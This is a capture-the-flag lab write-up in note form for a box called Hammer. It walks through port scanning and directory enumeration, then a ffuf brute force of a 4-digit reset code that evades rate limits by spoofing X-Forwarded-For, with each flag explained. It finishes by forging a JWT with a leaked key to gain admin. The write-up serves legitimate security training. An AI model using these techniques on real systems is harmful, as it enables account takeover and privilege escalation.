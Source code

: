 - port scanning phase:
	nmap -sC -sV -p- {IP}![](Pasted%20image%2020241206130150.png)
![](Pasted%20image%2020241206131016.png)

- inspect source page
![](Pasted%20image%2020241206131028.png)

- dir enumeration phase
```
gobuster dir --url http://10.10.208.169:1337/hmr_ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt -p pattern.txt (hmr_{GOBUSTER})
```
![](Pasted%20image%2020241206145639.png)

- logs dir check
	![](Pasted%20image%2020241206145719.png)
	![](Pasted%20image%2020241206145732.png)
- email address found: tester@hammer.thm
	![](Pasted%20image%2020241206145934.png)
		![](Pasted%20image%2020241206150228.png)
- check for cookies (PHPSESSID: eevapv194ivfivf2ovtibf4vp9)
![](Pasted%20image%2020241206174908.png)

- using burp for security code fuzz (OTP)
![](Pasted%20image%2020241206151052.png)

- we have a Rate-Limit-Pending response header and we have to bypass it using 'X-Forwarded- For' request header spoofing our IP address
- let s generate a list of possible code combinations (0000-9999) using: 
  ```
  seq 0000 9999 >> codes.txt
  ```

- we will be using  `ffuf → X-Forwarded-For`
```
ffuf -w codes.txt -u "http://10.10.252.115:1337/reset_password.php" -X "POST" -d "recovery_code=FUZZ&s=60" -H "Cookie: PHPSESSID=7fk71t34qtmphh4s7ge6o7k07n" -H "X-Forwarded-For: FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -s 
```
![](Pasted%20image%2020241206181128.png)

- `**-w codes.txt**`: Specifies the wordlist (`codes.txt`) that will be used for fuzzing. This wordlist contains the payloads that will replace the `FUZZ` keyword in the command.
- `**-u "http://hammer.thm:1337/reset_password.php"**`: The URL of the target web application. This is where the fuzzing request will be sent.
- `**-X "POST"**`: Specifies the HTTP method to be used, which in this case is `POST`.
- `**-d "recovery_code=FUZZ&s=60"**`: The data being sent in the body of the POST request. The `FUZZ` keyword here will be replaced with each entry from `codes.txt` during the fuzzing process. It appears that the fuzzing is targeting the `recovery_code` parameter.
- `**-H "Cookie: PHPSESSID=datlnccflgrmhqc9d5pkb6b8a7"**`: Adds a custom header to the request, specifically a `Cookie` header with a session ID. This is likely needed to maintain a session with the web application.
- `**-H "X-Forwarded-For: FUZZ"**`: Adds another custom header, `X-Forwarded-For`, which is often used to identify the originating IP address of a client connecting to a web server. In this case, it's being fuzzed to see if the application behaves differently based on the IP address.
- `**-H "Content-Type: application/x-www-form-urlencoded"**`: Specifies the content type of the data being sent. This is typical for form submissions.
- `**-fr "Invalid"**`: Filters out responses that contain the string `"Invalid"`. This helps in identifying successful or interesting responses that differ from the common invalid ones.
- `**-s**`: Runs `ffuf` in silent mode, which reduces the amount of output to only essential information.

- we obtained following access code: 6707 and after resseting user password we are in
	![](Pasted%20image%2020241206182436.png)![](Pasted%20image%2020241206182553.png)
- we have found a key
	![](Pasted%20image%2020241206235920.png)
- running other command(high privileged ones) is not allowed so we have to bypass it 
	![](Pasted%20image%2020241207000646.png)
- lets decode the JWT token and try to elevate our privileges
	![](Pasted%20image%2020241207000939.png)

- since the key that we have found is stored on the web page --> location of the kid is : /var/www/html/188ade1.key
- we will modify our role in the payload (user --> admin)
- we will sign using the value that we found in 188ade1.key as a secret
	![](Pasted%20image%2020241207002042.png)![](Pasted%20image%2020241207002131.png)

- changing the authorization bearer token we escalated our privileges
	  ![](Pasted%20image%2020241207002820.png)